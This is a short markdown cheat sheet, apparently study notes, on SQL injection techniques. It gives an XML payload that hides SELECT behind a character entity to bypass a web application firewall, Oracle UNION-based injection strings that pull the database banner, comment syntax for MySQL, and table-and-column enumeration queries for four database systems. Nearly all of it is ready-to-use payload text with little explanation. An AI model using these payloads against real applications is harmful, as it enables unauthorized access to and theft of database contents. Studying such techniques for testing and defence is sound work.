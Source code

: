 # New Findings

- Hidden tables
- Login Bypass

Obfuscate the "S" in select for XML SQLi to bypass WAF
```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
> Hackverter
 - Encodes/Decodes XML tags on the fly

#### Oracle
- Placeholder Table: DUAL
``'+UNION+SELECT+'abc','def'+FROM+dual--``
`'UNION+select+BANNER,+NULL+from+v$version--`
 
#### MySQL
- Alternative comment "#"

## Database contents

|   |   |
|---|---|
|Oracle|`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`|
|Microsoft|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|PostgreSQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|MySQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`|